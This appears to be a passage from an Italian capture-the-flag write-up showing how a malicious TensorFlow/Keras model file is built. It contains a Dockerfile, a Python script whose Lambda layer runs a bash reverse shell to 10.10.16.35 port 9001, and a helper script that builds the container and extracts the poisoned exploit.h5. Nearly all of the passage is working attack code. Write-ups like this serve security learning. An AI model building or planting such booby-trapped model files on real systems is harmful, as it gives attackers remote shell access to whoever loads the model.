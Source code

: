 `Dockerfile`

```text

FROM python:3.8-slim

WORKDIR /code

COPY exploit.py .

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash","-c","python3 exploit.py"]

```

Nel container viene costruito il modello eseguendo questo script Python:

`exploit.py`

```python

import tensorflow as tf

def exploit(x):
    import os
    os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.35/9001 0>&1'")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
  
```

Si costruisce il modello `exploit.h5` iniettando del codice che permette di stabilire una **reverse shell** verso la nostra macchina Kali.

Per semplificare il processo di costruzione e testing si e' scritto lo script `run` che crea il container e copia nella macchina Host il file `exploit.h5`.

`run`

```bash

#!/bin/bash
docker build -f Dockerfile -t artificial . && \ 
docker run --name artificial artificial && \ 
docker cp artificial:/code/exploit.h5 . 

```
